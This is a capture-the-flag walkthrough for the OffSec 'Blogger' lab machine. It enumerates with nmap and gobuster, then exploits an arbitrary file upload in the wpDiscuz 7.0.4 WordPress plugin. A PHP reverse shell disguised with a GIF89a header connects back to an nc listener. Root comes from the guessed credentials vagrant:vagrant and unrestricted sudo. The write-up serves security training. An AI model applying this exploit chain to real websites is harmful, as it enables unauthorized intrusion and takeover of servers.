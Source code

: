 ```yaml
---
title : "Blogger - Walkthrough"
date : 21-10-2024 02:00:00
categories : [Writeups,Offsec-Play]
tags : [Offsec-Play, OSCP]
---
```


## Summary

In this guide we will exploit an arbitary file upload in the `wpDiscuz version 7.0.4` plugin and obtain root access with a simple and straightforward method of privilege escalation.

## Enumeration

We begin the enumeration process with an `nmap` scan.

```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.120.183            

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-05 04:19 MST
Nmap scan report for 192.168.120.183
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.40 seconds
```

We see ports `22` and `80` open on the target.

Navigating to port `80` we see the following static webpage.

![Home](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_1_Dx3Rt6YL.png)

Home

Turning our attention to content discovery, we bruteforce directories with `gobuster`.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.120.183/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.120.183/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/04 07:37:35 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 319] [--> http://192.168.120.183/images/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.120.183/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.120.183/css/]   
/js                   (Status: 301) [Size: 315] [--> http://192.168.120.183/js/] 
```

Navigating to the `assets` directory, we find a `blog` directory in the `assets/fonts` path which reveals a `wordpress` site.

![wp](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_2_Qazx16L9.png)

wp

During our enumeration we skim through the source code of any blog post and see that the site uses the `wpDiscuz version 7.0.4` plugin.

```
┌──(kali㉿kali)-[~]
└─$ curl http://blogger.pg/assets/fonts/blog/?p=29
<!DOCTYPE html>
<html lang="en-US">

<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="profile" href="http://gmpg.org/xfn/11">
<link rel="pingback" href="http://blogger.pg/assets/fonts/blog/xmlrpc.php">
......
<link rel='stylesheet' id='wpdiscuz-frontend-css-css'  href='http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/themes/default/style.css?ver=7.0.4' type='text/css' media='all' />
```

After researching the `wpDiscuz version 7.0.4` plugin we see that it is vulnerable to an `Unauthenticated Arbitrary File Upload`.

Navigating to the comment section of any blog post, we see an upload form that accepts images.

![comment section](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_3_AL1Fg1KX.png)

comment section

As the comment section includes an upload form for images, we can attempt to upload a reverse shell in the `GIF89a` format, as it is common for any image upload functionality to allow GIFs as well.

We begin by grabbing a copy of a reverse shell to upload to the target, we will use the `php-reverse-shell.php` installed on kali by default.

```
┌──(kali㉿kali)-[~/blogger]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

We can add `GIF89a;` to the beginning of our `php-reverse-shell` to bypass any filters.

```
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

Next, we set up up a listener on our attack machine.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
```

Now we navigate to the comment section of any blog post, and attach our `php-reverse-shell.php` and fill in the necessary forms before submitting.

![upload](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Play_77_image_4_GD5ZLk7L.png)

upload

We receive a response in our listener and stabilize our shell by spawning a `python3` shell.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.120.150] 42538
Linux ubuntu-xenial 4.4.0-206-generic #238-Ubuntu SMP Tue Mar 16 07:52:37 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 15:39:15 up 58 min,  1 user,  load average: 0.04, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1                      14:41   57:54   0.05s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/$
```

## Privilege Escalation

In the `/home` directory, we see the users `james`,`ubuntu` and `vagrant`.

```
www-data@ubuntu-xenial:/home$ ls
ls
james  ubuntu  vagrant
```

We can guess the credentials of the user `vagrant` as `vagrant:vagrant`.

```
www-data@ubuntu-xenial:/$ su vagrant
su vagrant
Password: vagrant
vagrant@ubuntu-xenial:/$
```

Running the “sudo -l” command reveals that the user `vagrant` is permitted to run all commands.

```
vagrant@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL

```

We can achieve root access by using `sudo su`.

```
vagrant@ubuntu-xenial:/$ sudo su 
sudo su 
root@ubuntu-xenial:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```